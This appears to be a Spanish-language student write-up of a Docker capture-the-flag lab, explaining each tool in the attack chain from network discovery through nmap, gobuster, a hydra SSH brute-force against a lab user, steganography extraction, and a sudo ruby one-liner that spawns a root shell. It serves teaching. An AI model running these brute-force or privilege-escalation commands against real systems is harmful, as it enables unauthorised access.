<h5>**TALLER INDIVIDUAL**<h5>

**1. INVESTIGACIÓN DE HERRAMIENTAS EMPLEADAS**
| **Herramienta** | **Definición** | **Funcionalidad Principal** | **Casos de Uso Comunes** |
|----------------|----------------|-----------------------------|---------------------------|
| `scp`          | Herramienta de copia segura entre equipos a través de SSH. | Copiar archivos/directorios entre sistemas locales y remotos. | Transferencia de archivos entre servidores, backup remoto. |
| `docker`       | Plataforma de contenedores para ejecutar aplicaciones en entornos aislados. | Despliegue y ejecución de contenedores de forma portable. | Laboratorios de pentesting, pruebas de software. |
| `unzip`        | Utilidad para descomprimir archivos `.zip`. | Extraer contenido de archivos comprimidos en `.zip`. | Preparar archivos descargados o transferidos. |
| `chmod`        | Comando para modificar permisos de archivos. | Otorgar permisos de ejecución o lectura/escritura. | Permitir ejecución de scripts como `auto_deploy.sh`. |
| `ip add`       | Muestra la configuración de red. | Ver interfaces de red y direcciones IP. | Diagnóstico de red, determinar segmento IP para escaneo. |
| `netdiscover`  | Herramienta de descubrimiento de hosts en red local. | Detectar dispositivos activos por ARP. | Reconocimiento pasivo, identificación de hosts. |
| `nmap`         | Escáner de puertos y servicios. | Detectar puertos abiertos, servicios, versiones. | Reconocimiento activo, enumeración previa a explotación. |
| `gobuster`     | Fuzzer de directorios para aplicaciones web. | Enumerar archivos y carpetas ocultas. | Búsqueda de rutas ocultas en sitios web vulnerables. |
| `hydra`        | Herramienta de fuerza bruta para servicios de red. | Probar combinaciones de usuarios y contraseñas. | Auditoría de credenciales (SSH, FTP, HTTP). |
| `ssh`          | Protocolo para acceso remoto seguro. | Establecer sesión de consola segura con un host remoto. | Administración remota de servidores. |
| `file`         | Identifica el tipo de archivo. | Detectar formato, codificación o binario. | Confirmar si un archivo contiene esteganografía. |
| `steghide`     | Herramienta para ocultar/extraer archivos dentro de imágenes/audio. | Extraer contenido oculto de imágenes. | Análisis forense, CTFs. |
| `base64`       | Codificador y decodificador en base64. | Convertir entre texto y base64. | Comunicación oculta, análisis de datos encriptados. |
| `sudo`         | Ejecuta comandos como otro usuario (normalmente root). | Escalar privilegios de usuario. | Administración de sistemas, acceso restringido. |
| `ruby`         | Lenguaje de programación usado para scripting. | Ejecutar código Ruby desde consola. | Escalada de privilegios mediante ejecución de comandos. |



**EXPLICACIÓN DETALLADA DE COMANDOS Y VARIANTES**

**scp -r amor kali@192.168.1.12:/home/kali/Documents/**

Descripción: Copia recursivamente el directorio amor al sistema remoto.

Variantes:

```bash
scp archivo.txt user@host:/ruta/: Copia un archivo a un host remoto.
```

```bash
scp user@host:/archivo.txt ./: Copia desde remoto a local.
```

```bash
scp -P 2222 archivo.txt user@host:/: Usa un puerto SSH personalizado.
```



**sudo apt install docker.io**

Instala Docker desde los repositorios oficiales

Variantes:

```bash
sudo apt-get install docker-ce: Versión Community Edition.
```

```bash
curl -fsSL https://get.docker.com | sh: Instalación vía script oficial.
```

```bash
snap install docker: Instalación vía Snap (Ubuntu).
```


**unzip archivo.zip**

Descomprime archivos comprimidos en ZIP.

Variantes:

```bash
unzip -l archivo.zip: Lista contenido sin extraer.
```

```bash
unzip archivo.zip -d /ruta: Especifica carpeta destino.
```

```bash
unzip -o archivo.zip: Sobrescribe sin preguntar.
```


**chmod +x auto_deploy.sh**

Otorga permisos de ejecución.

Variantes:

```bash
chmod 755 archivo: Lectura y ejecución para todos.
```

```bash
chmod u+x archivo: Solo usuario puede ejecutar.
```

```bash
chmod -x archivo: Quita permisos de ejecución.
```


**ip add**

Muestra interfaces de red y direcciones IP.

Variantes:

```bash
ip a: Versión abreviada.
```

ifconfig: Comando clásico (menos actualizado).

```bash
ip addr show docker0: Interfaz específica.
```


**sudo netdiscover -i docker0 -r 172.17.0.0/24**

Descubre dispositivos activos por ARP.

Variantes:

-i eth0: Especifica interfaz.

-r 192.168.1.0/24: Segmento personalizado.

-P: Modo pasivo (sin enviar ARP).


**sudo nmap --min-rate 5000 -p- -sS -sV 172.17.0.2**

Escaneo SYN completo de todos los puertos, con detección de servicios.

Variantes:

-p 1-1000: Escaneo limitado a primeros puertos.

-A: Detecta OS y versión de servicios.

-T4: Ajusta la velocidad del escaneo.


**gobuster dir -u http://172.17.0.2/ -w ...**

Enumeración de directorios web.

Variantes:

-x php,html: Busca extensiones específicas.

-t 50: Número de hilos simultáneos.

-o salida.txt: Guarda resultados en archivo.


**hydra -l carlota -P rockyou.txt ssh://172.17.0.2 -t 10**

Ataque de fuerza bruta al servicio SSH.

Variantes:

-L usuarios.txt -P claves.txt: Lista de usuarios y contraseñas.

-f: Detenerse en el primer éxito.

-V: Muestra cada intento en consola.



**scp carlota@172.17.0.2:/ruta/imagen.jpg /home/kali/...**

Descarga la imagen del host remoto.

Ver variantes ya descritas en el primer comando scp.

**bash
file imagen.jpg**

Detecta el tipo de archivo.

Variantes:

```bash
file *: Detecta todos los archivos del directorio.
```

```bash
file -i imagen.jpg: Muestra tipo MIME.
```

```bash
file -b imagen.jpg: Salida sin nombre de archivo.
```


**steghide --extract -sf imagen.jpg**

Extrae datos ocultos dentro de imágenes.

Variantes:

--info -sf archivo.jpg: Información del archivo.

--embed -cf cover.jpg -ef secret.txt: Inserta secreto.

--extract -sf archivo.jpg -p clave: Usa contraseña.


**echo "ZXNsYWNhc2FkZXBpbnlwb24=" | base64 -d; echo**

Decodifica base64.

Variantes:

base64 archivo.txt: Codifica archivo.

base64 -d archivo.txt: Decodifica archivo.

echo -n ... | base64: Codifica sin salto de línea.




**sudo -l**

Verifica comandos que se pueden ejecutar con sudo.

```bash
sudo /usr/bin/ruby -e 'exec "/bin/bash"': Shell escalada vía Ruby.
```

Variantes comunes de sudo:

```bash
sudo su: Cambia a root.
```

```bash
sudo -i: Shell de root interactiva.
```

```bash
sudo -u usuario comando: Ejecuta como otro usuario.
```



**DIAGRAMA DE FLUJO DEL PROCEDIMIENTO REALIZADO**

**graph TD**

A[Inicio: Máquina Kali lista] --> B[Transferencia de carpeta amor por SCP]

B --> C[Instalación de Docker]

C --> D[Despliegue del laboratorio con script]

D --> E[Identificar IP de contenedor con ip add]

E --> F[Descubrimiento de hosts con netdiscover]

F --> G[Escaneo de puertos con nmap]

G --> H[Fuzzing de sitio web con gobuster]

H --> I[Bruteforce con Hydra a SSH]

I --> J[Conexión SSH exitosa como carlota]

J --> K[Navegación a imagen.jpg]

K --> L[Descarga con SCP]

L --> M[Revisión del archivo con file]

M --> N[Extracción con steghide]

N --> O[Decodificación con base64]

O --> P[Escalada de privilegios con sudo y ruby]

P --> Q[Fin: whoami]


**ANÁLISIS DETALLADO DE HERRAMIENTAS Y COMANDOS**

**1. scp (Secure Copy Protocol)**

Definición y Explicación Detallada:
scp es una herramienta de línea de comandos que permite transferir archivos o directorios entre sistemas de forma segura, utilizando el protocolo SSH para el cifrado de la comunicación. Es ideal para enviar datos confidenciales entre un host local y uno remoto o entre dos hosts remotos.

Ejemplo Práctico:

bash

CopiarEditar

```bash
scp archivo.txt user@192.168.1.10:/home/user/
```

Variantes y Flags:

-r: Copia directorios de forma recursiva.

-P <puerto>: Especifica el puerto SSH (por defecto es 22).

-C: Habilita la compresión de datos durante la transferencia.

-v: Muestra información detallada sobre la transferencia (modo verbose).

Casos de Uso Reales:

Transferencia de archivos de configuración entre servidores.

Envío de scripts de automatización o herramientas a entornos de pruebas.

Copia remota de imágenes, respaldos o resultados de escaneo.


**2. docker**

Definición y Explicación Detallada:
Docker es una plataforma de virtualización de contenedores que permite construir, ejecutar y administrar aplicaciones en entornos aislados. Cada contenedor incluye la aplicación y todas sus dependencias, asegurando portabilidad y consistencia entre entornos.

Ejemplo Práctico:

bash

CopiarEditar

```bash
docker run -it ubuntu bash
```

Variantes y Flags:

run: Inicia un nuevo contenedor.

ps: Lista los contenedores en ejecución.

images: Muestra las imágenes disponibles localmente.

-d: Ejecuta el contenedor en segundo plano (modo detached).

-p: Publica puertos del contenedor al host.

Casos de Uso Reales:

Simulación de laboratorios de hacking ético.

Desarrollo y despliegue de microservicios en producción.

Creación de entornos de pruebas reproducibles.


**3. netdiscover**

Definición y Explicación Detallada:
netdiscover es una herramienta de descubrimiento de red que utiliza peticiones ARP para identificar hosts activos en una red local. Es útil cuando se desconoce el rango exacto de IPs en uso y se desea hacer un reconocimiento pasivo.

Ejemplo Práctico:

bash

CopiarEditar

```bash
netdiscover -i eth0 -r 192.168.1.0/24
```

Variantes y Flags:

-i <interfaz>: Define la interfaz de red a usar.

-r <rango>: Especifica el rango de IPs a escanear.

-P: Modo pasivo (no envía paquetes ARP).

-s <segundos>: Intervalo de escaneo.

Casos de Uso Reales:

Reconocimiento inicial antes de un escaneo activo.

Identificación de dispositivos conectados a una red interna.

Uso en entornos restringidos donde se necesita evitar alertas.



**4. nmap (Network Mapper)**

Definición y Explicación Detallada:
nmap es una poderosa herramienta de escaneo de redes que permite descubrir dispositivos conectados, puertos abiertos, servicios en ejecución y versiones de software. También puede detectar el sistema operativo del objetivo.

Ejemplo Práctico:

bash

CopiarEditar

```bash
nmap -sS -p- -T4 192.168.1.10
```

Variantes y Flags:

-sS: Escaneo SYN (rápido y furtivo).

-A: Activación de detección avanzada (OS, scripts, traceroute).

-p-: Escanea todos los puertos del 1 al 65535.

-T4: Velocidad del escaneo (más agresiva).

-sV: Detección de versiones de servicios.

Casos de Uso Reales:

Auditoría de seguridad de redes.

Identificación de puertos vulnerables o mal configurados.

Evaluación de exposición de servicios antes de una intrusión.


**5. hydra**

Definición y Explicación Detallada:
hydra es una herramienta de ataque por fuerza bruta que permite probar múltiples combinaciones de nombres de usuario y contraseñas contra servicios de red como SSH, FTP, HTTP, entre otros. Es útil en pruebas de penetración para evaluar la robustez de sistemas de autenticación.

Ejemplo Práctico:

bash

CopiarEditar

```bash
hydra -l admin -P passwords.txt ssh://192.168.1.10
```

Variantes y Flags:

-l: Usuario objetivo.

-P: Ruta del diccionario de contraseñas.

-t: Número de hilos en paralelo.

-V: Muestra cada intento (modo verbose).

-f: Detiene el ataque al encontrar la primera contraseña válida.

Casos de Uso Reales:

Evaluación de credenciales débiles en servidores de prueba.

Competencias de seguridad informática (CTFs).

Validación de políticas de seguridad de contraseñas


**6. gobuster**

Definición y Explicación Detallada:
gobuster es una herramienta de fuerza bruta escrita en Go para realizar descubrimiento de contenido web. Permite enumerar directorios y archivos ocultos en aplicaciones web mediante diccionarios (wordlists), útil en fases de reconocimiento.

Ejemplo Práctico:

bash

CopiarEditar

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

Variantes y Flags:

dir: Modo de búsqueda de directorios.

-u <url>: URL objetivo.

-w <archivo>: Diccionario de palabras.

-x <ext>: Busca extensiones (ej. .php, .html).

-t <hilos>: Número de hilos paralelos (mayor velocidad).

Casos de Uso Reales:

Enumeración de rutas ocultas en servidores web.

Descubrimiento de paneles de administración o archivos sensibles.

Soporte en pruebas de penetración web.


**7. ssh (Secure Shell)**

Definición y Explicación Detallada:
ssh es un protocolo criptográfico que permite la conexión remota segura a otro sistema. Proporciona un canal encriptado a través del cual se puede acceder a la terminal de un servidor o enviar comandos de forma remota.

Ejemplo Práctico:

bash

CopiarEditar

```bash
ssh carlota@172.17.0.2
```

Variantes y Flags:

-p <puerto>: Conectar por un puerto diferente al 22.

-i <clave>: Usar clave privada para autenticación.

-v: Muestra detalles de la conexión (modo verbose).

-X: Reenvío de sesiones gráficas (X11).

Casos de Uso Reales:

Administración de servidores remotos.

Automatización de tareas vía scripts.

Acceso remoto a sistemas en entornos de red seguros.


**8. file**

Definición y Explicación Detallada:
file es una utilidad de línea de comandos que detecta el tipo de archivo analizando su contenido (magic numbers), en lugar de confiar únicamente en su extensión. Es útil para identificar binarios, imágenes, documentos, etc.

Ejemplo Práctico:

bash

CopiarEditar

```bash
file imagen.jpg
```

Variantes y Flags:

-b: Muestra solo el tipo del archivo, sin el nombre.

-i: Muestra el tipo MIME del archivo.

-z: Examina el contenido de archivos comprimidos.

Casos de Uso Reales:

Validación forense de archivos sospechosos.

Confirmación de formato real de un archivo.

Inspección previa al análisis esteganográfico.


**9. steghide**

Definición y Explicación Detallada:
steghide es una herramienta de esteganografía que permite ocultar y extraer datos (como archivos de texto o claves) dentro de imágenes o archivos de audio. Es especialmente útil en contextos de análisis forense o CTF.

Ejemplo Práctico:

bash

CopiarEditar

```bash
steghide --extract -sf imagen.jpg
```

Variantes y Flags:

--embed -cf <cover> -ef <archivo>: Oculta un archivo dentro de otro.

--extract -sf <archivo>: Extrae datos ocultos del archivo.

-p <clave>: Define una contraseña para ocultar/extraer datos.

--info: Muestra metadatos del archivo steganografiado.

Casos de Uso Reales:

Ocultamiento de mensajes sensibles en entornos restringidos.

Recuperación de información secreta durante CTFs o retos de seguridad.

Análisis en investigaciones digitales y forenses.


**10. base64**

Definición y Explicación Detallada:
base64 es una utilidad de codificación que transforma datos binarios en texto ASCII legible, útil para transmitir datos a través de medios que solo manejan texto. También se usa para ocultar contenido o manipular archivos en texto plano.

Ejemplo Práctico:

bash

CopiarEditar

```bash
echo "ZXNsYWNhc2FkZXBpbnlwb24=" | base64 -d; echo
```

Variantes y Flags:

-d: Decodifica una cadena base64.

-w <n>: Define número de caracteres por línea en salida codificada.

-i <archivo>: Codifica/decodifica archivo directamente.

Casos de Uso Reales:

Decodificación de claves o tokens en pruebas de penetración.

Procesamiento de archivos o datos en entornos web/API.

Análisis de mensajes codificados en ingeniería inversa o CTF.

11. sudo /usr/bin/ruby -e 'exec "/bin/bash"'

Definición y Explicación Detallada:
En este contexto, se utiliza sudo para ejecutar el intérprete de Ruby con privilegios elevados. La opción -e permite ejecutar código directamente como argumento. El código 'exec "/bin/bash"' reemplaza el proceso actual con un shell Bash, otorgando acceso privilegiado si sudo está autorizado.

Ejemplo Práctico:

bash

CopiarEditar

```bash
sudo /usr/bin/ruby -e 'exec "/bin/bash"'
```

Variantes y Flags:

```bash
sudo -l: Lista comandos permitidos para el usuario.
```

```bash
sudo -u <usuario> comando: Ejecuta comando como otro usuario.
```

```bash
ruby -e: Ejecuta expresiones Ruby desde línea de comandos.
```

Casos de Uso Reales:

Escalada de privilegios en sistemas mal configurados.

Uso controlado de intérpretes para análisis o scripting.

Acceso administrativo en retos CTF cuando Ruby está permitido.





**FUENTES**
•	Docker Docs: https://docs.docker.com/
•	Hydra: https://tools.kali.org/password-attacks/hydra
•	Nmap Reference: https://nmap.org/book/man-briefoptions.html
•	Steghide: http://steghide.sourceforge.net/
•	Netdiscover: https://github.com/alexxy/netdiscover
•	Gobuster: https://github.com/OJ/gobuster
•	scp man: https://man7.org/linux/man-pages/man1/scp.1.html
•	Ruby exec usage: https://ruby-doc.org/core-2.7.0/Kernel.html#method-i-exec

